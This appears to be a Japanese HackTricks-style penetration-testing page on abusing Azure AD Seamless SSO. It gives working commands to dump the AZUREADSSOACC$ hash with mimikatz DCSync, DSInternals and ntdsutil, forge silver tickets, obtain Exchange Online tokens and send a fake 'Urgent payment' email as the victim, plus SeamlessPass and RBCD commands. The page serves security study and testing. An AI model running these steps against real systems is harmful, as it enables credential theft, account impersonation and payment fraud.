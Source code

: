 # Az - シームレスSSO

{{#include ../../../../banners/hacktricks-training.md}}

## 基本情報

[ドキュメントから:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory シームレスシングルサインオン (Azure AD Seamless SSO) は、**ユーザーが企業ネットワークに接続された企業デバイス上にいるときに自動的にサインインします**。有効にすると、**ユーザーはAzure ADにサインインするためにパスワードを入力する必要がなく**、通常はユーザー名すら入力する必要がありません。この機能により、ユーザーは追加のオンプレミスコンポーネントなしで、クラウドベースのアプリケーションに簡単にアクセスできます。

<figure><img src="../../../../images/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

基本的に、Azure AD シームレスSSOは、**オンプレミスのドメインに参加しているPC上にいるときにユーザーをサインインさせます**。

これは、[**PHS (パスワードハッシュ同期)**](phs-password-hash-sync.md) と [**PTA (パススルー認証)**](pta-pass-through-authentication.md) の両方でサポートされています。

デスクトップSSOは、**Kerberos**を使用して認証を行います。構成されると、Azure AD ConnectはオンプレミスADに**AZUREADSSOACC`$`というコンピュータアカウントを作成します**。`AZUREADSSOACC$`アカウントのパスワードは、構成中に**平文でAzure ADに送信されます**。

**Kerberosチケット**は、パスワードの**NTHash (MD4)**を使用して**暗号化**され、Azure ADは送信されたパスワードを使用してチケットを復号化します。

**Azure AD**は、Kerberos **チケット**を受け入れる**エンドポイント** (https://autologon.microsoftazuread-sso.com) を公開しています。ドメイン参加マシンのブラウザは、SSOのためにこのエンドポイントにチケットを転送します。

### オンプレミス -> クラウド

ユーザーの**`AZUREADSSOACC$`のパスワードは決して変更されません**。したがって、ドメイン管理者はこのアカウントの**ハッシュを危険にさらすことができ**、それを使用して**シルバーチケットを作成し、任意のオンプレミスユーザーと同期してAzureに接続することができます**。
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
ハッシュを使用して、**シルバーチケットを生成**できます：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
シルバーチケットを利用するには、以下の手順を実行する必要があります：

1. **ブラウザを起動する:** Mozilla Firefoxを起動します。
2. **ブラウザを設定する:**
- **`about:config`**に移動します。
- [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)の設定を指定された[値](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)に設定します：
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **Webアプリケーションにアクセスする:**
- 組織のAADドメインに統合されたWebアプリケーションにアクセスします。一般的な例は[Office 365](https://portal.office.com/)です。
4. **認証プロセス:**
- ログイン画面で、ユーザー名を入力し、パスワードフィールドは空白のままにします。
- 続行するには、TABまたはENTERを押します。

> [!TIP]
> これにより、MFAが有効な場合はバイパスされません

#### オプション2 dcsyncなし - SeamlessPass

この攻撃は、**dcsync攻撃なしで**よりステルスに実行することも可能です。これは[このブログ記事](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)で説明されています。そのためには、以下のいずれかが必要です：

- **侵害されたユーザーのTGT:** たとえ持っていなくても、ユーザーが侵害されていれば、[Kekeo](https://x.com/gentilkiwi/status/998219775485661184)や[Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)などの多くのツールに実装されている偽TGT委任トリックを使用して取得できます。
- **ゴールデンチケット**: KRBTGTキーを持っていれば、攻撃対象のユーザーに必要なTGTを作成できます。
- **侵害されたユーザーのNTLMハッシュまたはAESキー:** SeamlessPassは、この情報を使用してドメインコントローラーと通信し、TGTを生成します。
- **AZUREADSSOACC$アカウントのNTLMハッシュまたはAESキー:** この情報と攻撃対象のユーザーのセキュリティ識別子（SID）を使用して、サービスチケットを作成し、クラウドに認証することが可能です（前の方法で実行されたように）。

最後に、TGTを使用して、[**SeamlessPass**](https://github.com/Malcrove/SeamlessPass)ツールを使用することができます：
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
さらなる情報は、FirefoxをシームレスSSOで動作させるために[**このブログ記事**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)で見つけることができます。

#### ~~クラウド専用ユーザーのためのKerberosチケットの作成~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory管理者がAzure AD Connectにアクセスできる場合、**任意のクラウドユーザーのSIDを設定**することができます。この方法で、Kerberos **チケット**は**クラウド専用ユーザーのためにも作成**できます。唯一の要件は、SIDが適切な[SID](<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824(v=ws.10)>)であることです。

> [!CAUTION]
> クラウド専用管理ユーザーのSIDを変更することは現在**Microsoftによってブロックされています**。\
> 詳細は[https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)を確認してください。

### オンプレミス -> クラウドへのリソースベースの制約付き委任 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

このアカウントが存在するコンテナまたはOU内のコンピューターアカウント（`AZUREADSSOACC$`）を管理できる人は、**アカウントに対してリソースベースの制約付き委任を構成し、アクセスすることができます**。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考文献

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
- [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{{#include ../../../../banners/hacktricks-training.md}}
